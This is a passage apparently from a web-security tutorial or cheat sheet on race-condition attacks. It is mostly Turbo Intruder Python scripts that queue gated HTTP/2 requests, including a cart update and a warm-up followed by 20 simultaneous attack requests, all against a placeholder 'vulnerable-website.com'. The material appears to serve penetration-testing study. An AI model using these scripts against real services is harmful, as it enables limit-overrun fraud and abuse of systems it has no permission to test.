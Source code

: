            # Second request (e.g., cart modification)
           req2 = '''POST /cart/update HTTP/2
       Host: vulnerable-website.com
       Content-Type: application/json
       Cookie: session=valid_session
       
       {"items":[{"id":"expensive-item","quantity":5}]}'''
           
           # Queue both requests to the same gate
           engine.queue(req1, gate='race')
           engine.queue(req2, gate='race')
           
           # Send all requests in the gate simultaneously
           engine.openGate('race')
       
       def handleResponse(req, interesting):
           table.add(req)
       ```
    
    4. **Turbo Intruder with connection warming**:
       ```python
       def queueRequests(target, wordlists):
           engine = RequestEngine(
               endpoint=target.endpoint,
               concurrentConnections=1,
               engine=Engine.BURP2
           )
           
           # Warm-up request to establish connection
           warmup = '''GET / HTTP/2
       Host: vulnerable-website.com
       
       '''
           
           # Target requests
           attack_req = target.req
           
           # First, queue the warm-up request
           engine.queue(warmup)
           
           # Then queue attack requests in a gate
           for i in range(20):
               engine.queue(attack_req, gate='race')
           
           # Send attack requests after warm-up completes
           engine.openGate('race')
       